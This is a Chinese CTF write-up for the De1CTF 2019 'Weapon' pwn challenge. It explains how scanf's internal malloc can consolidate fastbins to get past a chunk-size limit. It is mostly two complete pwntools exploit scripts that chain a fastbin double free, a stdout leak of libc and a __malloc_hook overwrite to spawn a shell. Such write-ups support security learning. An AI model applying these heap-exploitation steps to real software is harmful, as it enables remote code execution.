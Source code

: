 ```yaml
---
title: Passby chunk-size limit
date: 2019-08-09 13:20:47
tags: heap
---
```

free - > consolidate -> combine all the fastbins....
<!--more-->

# prelog
在[offical-wp][1]出来后发现@peanuts师傅给出的解法比我的要灵活。
这里做一下记录.

# Start
这题漏洞点比较明显 存在于`free`
主要的限制是`malloc`的大小<=0x60,所以不能直接获取一个`unsortedbin`
* 绕过限制我想的是利用double 修改head
事实上可以用更加巧妙的方法
也就是利用`scanf()`里面的`malloc`来实现对fastbin的清理.//这个套路灰常的好用直接可以无视chunk_size的限制
具体做法是
```python
malloc(0x60)#0
malloc(0x60)#1
malloc(0x60)#2
free(0)
free(1)
p.sendline("1"*0x400)
```
# exp
我原本的脚本比较繁琐
```python
from pwn import *
def cmd(c):
	p.sendlineafter(">> \n",str(c))
def Cmd(c):
	p.sendlineafter(">> ",str(c))
def add(size,idx,name="padding"):
	cmd(1)
	p.sendlineafter(": ",str(size))
	p.sendlineafter(": ",str(idx))
	p.sendafter(":\n",name)
def free(idx):
	cmd(2)
	p.sendlineafter(":",str(idx))
def edit(idx,name):
	cmd(3)
	p.sendlineafter(": ",str(idx))
	p.sendafter(":\n",name)
def Add(size,idx,name="padding"):
	Cmd(1)
	p.sendlineafter(": ",str(size))
	p.sendlineafter(": ",str(idx))
	p.sendafter(":",name)
def Free(idx):
	Cmd(2)
	p.sendlineafter(":",str(idx))

#p=process('./pwn')
p=remote("139.180.216.34",8888)
#context.log_level='debug'
add(0x18,0)
add(0x18,1)
add(0x60,2,p64(0x0)+p64(0x21)+'\x00'*0x18+p64(0x21)*5)
add(0x60,3,p64(0x21)*12)
add(0x60,4)
add(0x60,5)
free(0)
free(1)
free(0)
free(1)

add(0x18,0,"\x50")
add(0x18,0,'\x00'*8)
add(0x18,0,"A")

add(0x18,0,'GET')

edit(2,p64(0x0)+p64(0x91))
free(0)

add(0x18,0)
add(0x60,0,'\xdd\x25')

free(2)
free(5)
free(2)
free(5)

#gdb.attach(p,'')
add(0x60,4,'\x70')
#
add(0x60,0)
add(0x60,0)
add(0x60,0)
add(0x60,0,'\x00'*(0x40+3-0x10)+p64(0x1800)+'\x00'*0x19)
p.read(0x40)

base=u64(p.read(6).ljust(8,'\x00'))-(0x7ffff7dd2600-0x7ffff7a0d000)
log.warning(hex(base))
#raw_input()
libc=ELF("./pwn").libc
Add(0x60,0)
Add(0x60,1)
Add(0x18,2)
Free(0)
Free(1)
Free(0)
Add(0x60,0,p64(libc.sym['__malloc_hook']+base-35))
Add(0x60,0)
Add(0x60,0)
one=0xf02a4
Add(0x60,0,'\x00'*19+p64(one+base))

Free(1)
Free(1)

p.interactive()
```
peanuts 师傅的脚本比我简单的多了.
```python
from pwn import *
def cmd(c):
	p.sendlineafter(">> \n",str(c))
def Cmd(c):
	p.sendlineafter(">> ",str(c))
def add(size,idx,name="padding"):
	cmd(1)
	p.sendlineafter(": ",str(size))
	p.sendlineafter(": ",str(idx))
	p.sendafter(":\n",name)
def free(idx):
	cmd(2)
	p.sendlineafter(":",str(idx))
def edit(idx,name):
	cmd(3)
	p.sendlineafter(": ",str(idx))
	p.sendafter(":\n",name)
def Add(size,idx,name="padding"):
	Cmd(1)
	p.sendlineafter(": ",str(size))
	p.sendlineafter(": ",str(idx))
	p.sendafter(":",name)
def Free(idx):
	Cmd(2)
	p.sendlineafter(":",str(idx))

p=process('./pwn')
#p=remote("139.180.216.34",8888)
context.log_level='debug'
add(0x60,0)
add(0x60,1)
add(0x60,2)
free(0)
free(1)
p.sendlineafter(">> \n","1"*0x400)
add(0x60,0,'\xdd\x25')
add(0x60,1)
free(2)
free(1)
free(2)
free(1)
add(0x60,2,'\x00')

add(0x60,3)
add(0x60,3)
add(0x60,3)
add(0x60,3,'\x00'*0x33+p64(0x1800)+'\x00'*0x19)

p.read(0x40)
base=u64(p.read(8))-(0x7ffff7dd2600-0x00007ffff7a0d000)
log.info(hex(base))

libc=ELF("./pwn").libc
Add(0x60,4)
Add(0x60,5)
Add(0x60,6)
Free(4)
Free(5)
Free(4)
one=0xf02a4
Add(0x60,4,p64(libc.sym['__malloc_hook']+base-35))
Add(0x60,4)
Add(0x60,4)
Add(0x60,4,"\x00"*19+p64(one+base))

Free(3)
p.interactive()
```

# epilog
这个技巧有时候挺有用的.

[1]: https://github.com/De1ta-team/De1CTF2019/tree/master/writeup/pwn/Weapon